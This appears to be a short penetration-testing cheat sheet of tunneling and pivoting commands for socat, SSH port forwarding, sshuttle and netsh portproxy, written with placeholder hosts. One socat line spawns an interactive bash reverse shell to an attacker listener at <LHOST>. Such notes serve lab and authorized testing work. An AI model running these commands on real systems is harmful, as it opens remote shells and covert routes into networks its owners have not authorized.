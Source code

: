 #### socat

```c
socat TCP-LISTEN:<LPORT>,fork TCP:<RHOST>:<RPORT>
```

```c
socat file:`tty`,raw,echo=0 tcp-listen:<LPORT>
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LHOST>:<LPORT>
```

```c
socat tcp-listen:5986,reuseaddr,fork tcp:<RHOST>:9002
socat tcp-listen:9002,reuseaddr,fork tcp:192.168.122.228:5968 &
```

#### SSH

```c
ssh user@<RHOST> -oKexAlgorithms=+diffie-hellman-group1-sha1

// Local forwarding (first part -> second part) localip:localport:remoteip:remoteport

ssh -L 8000:127.0.0.1:8000 <USERNAME>@<RHOST>
ssh -N -L 1234:127.0.0.1:1234 <USERNAME>@<RHOST>
ssh -L 80:<LHOST>:80 <RHOST>
ssh -L 127.0.0.1:80:<LHOST>:80 <RHOST>
ssh -L 80:localhost:80 <RHOST>

// Local Dynamic forwarding
ssh -N -D 0.0.0.0:1080 <RHOST>

// Remote Port forwarding, Bind in RHOST
ssh -N -R 127.0.0.1:8080:<LHOST>:80 <RHOST>

// Remote Dynamic forwarding
ssh -N -R 1080 <RHOST>


```

#### SShuttle

```c

sshuttle -r <RHOST>:<RPORT> 10.4.50.0/24 172.16.50.0/24

```

#### Netsh

```c
netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=<LHOST> connectport=<RPORT> connectaddress=<RHOST>
```
